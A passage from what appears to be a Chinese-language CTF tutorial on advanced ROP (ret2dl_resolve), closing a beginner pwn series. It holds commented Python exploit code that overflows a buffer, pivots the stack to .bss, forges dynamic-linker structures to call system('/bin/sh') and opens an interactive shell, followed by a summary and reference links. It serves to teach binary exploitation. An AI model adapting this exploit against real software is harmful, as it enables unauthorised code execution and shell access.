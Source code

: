 ```
buf3 = 'A' * 0x2c + rop.dl_resolve_call(addr_bss + 20, addr_bss)
r.send(buf3)

#gdb.attach(r)

r.interactive()
```

这个程序师傅们写的,这里我分析下程序结构

```
rop = roputils.ROP('./pwn')
addr_bss = rop.section('.bss') # 获取bss段地址

buf1 = 'A' * 0x2c
buf1 += p32(0x8048390) + p32(0x804852D) + p32(0) + p32(addr_bss) + p32(100)
r.send(buf1)
# rop1 这里调用了read的plt,返回地址double overflow,
# 主要作用是迁移栈到bss段
# 这段代码可以简化,多利用下rop函数就好了
# buf = 'A' * 0x2c + rop.call('read', 0, addr_bss, 100)

buf2 =  rop.string('/bin/sh')
buf2 += rop.fill(20, buf2)
buf2 += rop.dl_resolve_data(addr_bss + 20, 'system')
# addr_bss + 20 这是我们可控的区域,dl_resolve_data会自动对齐
buf2 += rop.fill(100, buf2)
r.send(buf2)
# 上面就是伪造结构的过程,
buf3 = 'A' * 0x2c + rop.dl_resolve_call(addr_bss + 20, addr_bss)
```

关于roputils的原理可以参考下: [ROP之return to dl-resolve](http://rk700.github.io/2015/08/09/return-to-dl-resolve/)



## 0x7 总结

本文更多是简化各位大师傅们的文章,因为笔者在学习高级ROP过程中,阅读了各位师傅们的文章之后感觉还是有些地方不是很明白，所以自己集百家之长写了这么一篇自我而言比较好理解的高级ROP文章,当作PWN入门系列栈的收尾,堆开端的预兆。



## 0x8 参考链接

[高级ROP：Ret2dl_resolve技术详解 ](https://www.anquanke.com/post/id/177450)

[高级ROP ret2dl_runtime 之通杀详解](https://xz.aliyun.com/t/5122)

[[原创][新手向]ret2dl-resolve详解](https://bbs.pediy.com/thread-227034.htm)

[baby_pwn wp](https://www.ctfwp.com/articals/2019national.html#babypwn)

[ret2dl_resolve从原理到实践](https://xz.aliyun.com/t/6471)
